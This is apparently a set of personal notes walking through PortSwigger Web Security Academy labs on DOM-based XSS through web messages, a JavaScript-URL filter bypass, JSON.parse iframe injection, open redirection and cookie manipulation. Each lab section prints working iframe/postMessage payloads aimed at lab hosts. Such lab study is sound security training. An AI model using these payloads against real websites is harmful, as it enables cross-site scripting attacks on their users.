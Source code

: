 ### DOM XSS using web messages

So, let's see how Event Listeners and Post Messages work. 

If you create an event listener, like this:
```js
window.addEventListener('message', (e) => {
	console.log(e.data);
});
```

You are creating a new EventListener, we will listen for "message", and when this is received, we can do something.
In this case, we print the value of the web message.

And now, if we create a postMessage:
```js
window.postMessage("Hello World!")
```

We can see it does the log:
![[Pasted image 20240524120637.png]]

So, in our exercise, we see this script in the source:
```html
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```

This means, we need to create a postMessage, and this will be executed.
So, if we create a postMessage, we can see it rendered on the page: 
![[Pasted image 20240524120955.png]]

In the exploit server, we can put our payload given by the lab, and see what it's doing:
`<iframe src="https://LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>', '*')">`

We'll load the vulnerable page on an iframe. When the iframe has finished loading, its going to execute the JS inside the double quotes.
this -> iframe
contentWindow -> window object

And we specify the targetOrigin to `*`, indicating no preference

---
### DOM XSS using web messages and a JavaScript URL

In this case, the eventListener is different:
```html
<script>
	window.addEventListener('message', function(e) {
		var url = e.data;
		if (url.indexOf('http://') > -1 || url.indexOf('https://') > -1) {
			location.href = url;
		}
	}, false);
```

So, what this is doing is creating an event listener, setting the content of the event into a variable "url".
And its looking for "http://" or "https://" inside that variable. If it's true, then location.href is set to the URL.

So, from the browser console, we can create an event listener as follows:
`window.postMessage("javascript:alert(1)//http://")`

We are executing the `javascript:alert(1)` and commenting everything else, but successfully bypassing the filter in the event listener. 

Let's build our payload: 
`<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">`

---
### DOM XSS using web messages and `JSON.parse`

This is the event listener in this case:
```html
<script>
window.addEventListener('message', function(e) {
    var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
    document.body.appendChild(iframe);
    try {
        d = JSON.parse(e.data);
    } catch(e) {
        return;
    }
    switch(d.type) {
        case "page-load":
            ACMEplayer.element.scrollIntoView();
            break;
        case "load-channel":
            ACMEplayer.element.src = d.url;
            break;
        case "player-height-changed":
            ACMEplayer.element.style.width = d.width + "px";
            ACMEplayer.element.style.height = d.height + "px";
            break;
    }
}, false);
</script>
```

So, breaking this up, we have:
create an event listener. 
Declare 3 variables: iframe, ACMEplayer and "d"

The value of e.data, will be set to "d"
And then, if d.type is "page-load", set d.url to "ACMEplayer.element.src".
So, if we could send a post Message with that attribute, it will be a valid exploit.
`Window.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}")
it should do the trick!

This will be our payload: 
`<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>`

---
### DOM-based open redirection
We can see this line in the source code:
`<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); location.href = returnUrl ? returnUrl[1] : "/"'>Back to Blog</a>`

So, if we input in the querystring &url=http://google.com when we click on "back to Blog", we'll be redirected to google.
To solve the lab, redirect it to the exploit server. 

---
### DOM-based cookie manipulation

After you visit a product, the home shows an option "Last viewed product" that has the value of the previous product you visit:
![[Pasted image 20240524153903.png]]

And this is being loaded in the HTML via this line:
`<a href='[https://0a7c006504d05b7f80dd26870025004c.web-security-academy.net/product?productId=1&aaa](view-source:https://0a7c006504d05b7f80dd26870025004c.web-security-academy.net/product?productId=1)'>Last viewed product</a><p>|</p>`

And every post has this script:
```html
<script>
	document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```

window.location = the URL
So, if we input this in the URL: `&'><script>alert(1)</script>`, we can get the XSS when clicking "Last viewed product"
This is your payload:
`<iframe src="https://0a7c006504d05b7f80dd26870025004c.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://0a7c006504d05b7f80dd26870025004c.web-security-academy.net';window.x=1;">`

---
### Exploiting DOM clobbering to enable XSS
https://www.youtube.com/watch?v=eWD4LH5W2Es&list=PLWvfB8dRFqba4RedkuUDWMEkAkP8cdZCW&index=6